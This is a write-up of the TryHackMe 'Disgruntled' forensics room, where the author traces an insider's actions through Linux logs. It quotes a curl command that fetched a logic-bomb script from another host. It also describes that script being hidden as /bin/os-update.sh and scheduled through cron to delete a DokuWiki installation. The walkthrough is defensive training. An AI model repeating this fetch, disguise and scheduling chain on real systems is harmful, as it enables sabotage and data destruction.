 # [TryHackMe - Disgruntled](https://tryhackme.com/room/disgruntled)
![17bf632054e2a09eb9bca1918230589d.png](/resources/17bf632054e2a09eb9bca1918230589d.png)
***
## Table of Contents

- [Introduction](#introduction)
- [Nothing suspicious... So far](#nothing-suspicious-so-far)
- [Let’s see if you did anything bad](#lets-see-if-you-did-anything-bad)
- [Bomb has been planted. But when and where?](#bomb-has-been-planted-but-when-and-where)
- [Following the fuse](#following-the-fuse)

***
## Introduction
**Hey, kid! Good, you’re here!**

**Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.**

**CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.**

![bcfe2405d78c8e84ae8a4409e2046897.png](/resources/bcfe2405d78c8e84ae8a4409e2046897.png)

After deployed the machine, we automatically accessed the compromised machine as root so we have to conduct an investigation with cares since root privilege can tampered with live evidence and we have to redeploy to machine it if we accidently deleted critical evidences

* * *
## Nothing suspicious... So far
**Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.**

**My advice: Look at the privileged commands that were run. That should get you started.**

>The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

If we're looking for privileged commands, the best places to check are `bash_history` of root user and `auth.log`, which keeps track of authentication events and also commands executed by user using `sudo` as well.

![165a61600129eb8cf564494246c2350a.png](/resources/165a61600129eb8cf564494246c2350a.png)

To filter out commands from auth.log, we can run `grep COMMAND /var/log/auth.log`. This helps us see what was run with elevated privileges. Looking at the logs, it turns out the "cybert" user installed **DokuWiki** using `apt` with `sudo`.

```
/usr/bin/apt install dokuwiki
```

>What was the present working directory (PWD) when the previous command was run?

![2533faf610bc1b86492d48d458158ae3.png](/resources/2533faf610bc1b86492d48d458158ae3.png)

We can see that most commands are executed from home directory of "cybert" user including the previous command we found as well.

```
/home/cybert
```

***
## Let’s see if you did anything bad
**Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.**

>Which user was created after the package from the previous task was installed?

![784ff15d7a1460a2fe90be27bbff919e.png](/resources/784ff15d7a1460a2fe90be27bbff919e.png)

After installed DokuWiki, user then created another user "it-admin" with `sudo`

```
it-admin
```

>A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

![374681854fe24f5e02fe8cda5c61602a.png](/resources/374681854fe24f5e02fe8cda5c61602a.png)

Notice that `visudo` was used and then "it-admin" was found to executed command as root via `sudo` which mean user edited `/etc/sudoers` file to make "it-admin" user can execute command as root.

![1dcfee70068c19ae705f1cdecbe54990.png](/resources/1dcfee70068c19ae705f1cdecbe54990.png)

To match the timeline from the audit log, we can use `stat /etc/sudoers` to display statistic of a file which included Access, Modify and Change timestamp as well and as we can see from the above image, the modify and change timestamp matches the timestamp of `visudo` binary usage in audit log.

```
Dec 28 06:27:34
```

>A script file was opened using the "vi" text editor. What is the name of this file?

![ce7f4352d887a68046d805014b4e3718.png](/resources/ce7f4352d887a68046d805014b4e3718.png)

Then after that, we can see that "it-admin" user used `vi` to edit `bomb.sh` file.

```
bomb.sh
```
* * *
## Bomb has been planted. But when and where?
**That `bomb.sh` file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.**

>What is the command used that created the file `bomb.sh`?

![ac6c2787b16650d9e7ee4997241b2d33.png](/resources/ac6c2787b16650d9e7ee4997241b2d33.png)

Upon accessing "it-admin" user's home directory, `bomb.sh` was nowhere to be found so we have to inspect `.bash_history` to find out what happened and it turns out, the file was not newly created on this machine but fetched from other server using `curl` but we could also see that "it-admin" removed `bomb.sh` later which is the reason why we could not find this file on this user's home directory

```
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
```

>The file was renamed and moved to a different directory. What is the full path of this file now?

![4d52d81b8183beffcebf791b77ef1079.png](/resources/4d52d81b8183beffcebf791b77ef1079.png)

Since we know that user use `vi` to edit file then we can inspect `.viminfo` file for any history related to `vi` and we can see that the file was saved as `/bin/os-update.sh`. 

```
/bin/os-update.sh
```

>When was the file from the previous question last modified? (Format: Month Day HH:MM)

![26975dd3ecb73bdadb7176e0c3bbb1d7.png](/resources/26975dd3ecb73bdadb7176e0c3bbb1d7.png)

We could copy UNIX timestamp from `.viminfo` and convert it but lets just use `stat /bin/os-update.sh` since its a lot easier which we can see that upon saving this file, there is no modification on this file after that.

```
Dec 28 06:29
```

>What is the name of the file that will get created when the file from the first question executes?

![fe845f14134c336b683768d9f7c7e7ca.png](/resources/fe845f14134c336b683768d9f7c7e7ca.png)

Lets see what's inside this file, and It appears to be a logic bomb to remove dokuwiki installation directory if "it-admin" user hasn't logged in in the last 90 days and will also create a file with taunting message after the deletion.

```
goodbye.txt
```
* * *
## Following the fuse
**So we have a file and a motive. The question we now have is: how will this file be executed?**

**Surely, he wants it to execute at some point?**

>At what time will the malicious file trigger? (Format: HH:MM AM/PM)

![e1761a6c71c0ca4c1ba3d1b43937c999.png](/resources/e1761a6c71c0ca4c1ba3d1b43937c999.png)

From bash history file, we found that user also use nano to edit `/etc/crontab` file which responsible for global cronjob of the system.

![d90c8c91f5a6d762c24345a2f4386816.png](/resources/d90c8c91f5a6d762c24345a2f4386816.png)

By inspecting the file, we can see that the logic bomb script is set to  execute at 08:00 AM everyday.

```
08:00 AM
```

![8224f9be9ee9d6849e876d2dcaecbcc6.png](/resources/8224f9be9ee9d6849e876d2dcaecbcc6.png)

And we are done.

![95bdfe7c4391d8ba2e289081f79950b8.png](/resources/95bdfe7c4391d8ba2e289081f79950b8.png)
https://tryhackme.com/chicken0248/badges/handle-the-disgruntled

***
